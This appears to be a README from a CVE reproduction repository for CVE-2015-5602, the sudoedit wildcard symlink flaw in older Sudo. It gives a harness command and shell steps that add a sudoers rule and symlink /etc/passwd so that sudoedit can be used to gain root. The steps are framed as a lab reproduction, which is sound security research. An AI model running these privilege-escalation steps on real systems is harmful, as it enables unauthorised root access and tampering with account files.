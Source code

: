 # CVE-2015-5602

### Description
sudoedit in Sudo before 1.8.15 allows local users to gain privileges via a symlink attack on a file whose full path is defined using multiple wildcards in `/etc/sudoers`, as demonstrated by `/home/*/*/file.txt`.

### Command to run
```shell
python cve_debian.py --number 2015-5602 --release jessie --directory sudoedit --selenium
```

### Simple testing method

```shell
adduser haxor
echo "haxor ALL=(root) NOPASSWD: sudoedit /home/*/*/test.txt" >> /etc/sudoers
su haxor
cd; mkdir demo
ln -s /etc/passwd demo/test.txt
sudoedit demo/test.txt #Should not be working 
sudoedit /home/haxor/demo/test.txt # Should be working
```
You can edit the file and then get root access.